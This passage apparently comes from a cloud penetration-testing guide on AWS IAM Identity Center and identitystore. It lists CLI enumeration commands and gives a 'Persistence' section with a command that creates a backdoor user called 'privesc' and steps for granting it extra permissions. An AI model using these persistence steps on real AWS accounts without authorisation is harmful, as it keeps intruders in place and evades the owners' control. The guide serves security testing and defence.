 ```bash
aws sso-admin get-permissions-boundary-for-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn>

## List accounts a permission set is affecting
aws sso-admin list-accounts-for-provisioned-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn>
## List principals given a permission set in an account
aws sso-admin list-account-assignments --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --account-id <account_id>

# Get permissions sets affecting an account
aws sso-admin list-permission-sets-provisioned-to-account --instance-arn <instance-arn> --account-id <account_id>

# List users & groups from the identity store
aws identitystore list-users --identity-store-id <store-id>
aws identitystore list-groups --identity-store-id <store-id>
## Get members of groups
aws identitystore list-group-memberships --identity-store-id <store-id> --group-id <group-id>
## Get memberships or a user or a group
aws identitystore list-group-memberships-for-member --identity-store-id <store-id> --member-id <member-id>
```

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-sso-and-identitystore-privesc.md" %}
[aws-sso-and-identitystore-privesc.md](../aws-privilege-escalation/aws-sso-and-identitystore-privesc.md)
{% endcontent-ref %}

### Persistence

#### Create a user an assign permissions to it

{% code overflow="wrap" %}
```bash
# Create user identitystore:CreateUser
aws identitystore create-user --identity-store-id <store-id> --user-name privesc --display-name privesc --emails Value=sdkabflvwsljyclpma@tmmbt.net,Type=Work,Primary=True --name Formatted=privesc,FamilyName=privesc,GivenName=privesc
## After creating it try to login in the console using the selected username, you will receive an email with the code and then you will be able to select a password
```
{% endcode %}

* Create a group and assign it permissions and set on it a controlled user
* Give extra permissions to a controlled user or group
*   By default, only users with permissions form the Management Account are going to be able to access and control de IAM Identity Center.

    However, it's possible via Delegate Administrator to allow users from a different account to manage it. They won't have exactly the same permission, but they will be able to perform [**management activities**](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html).
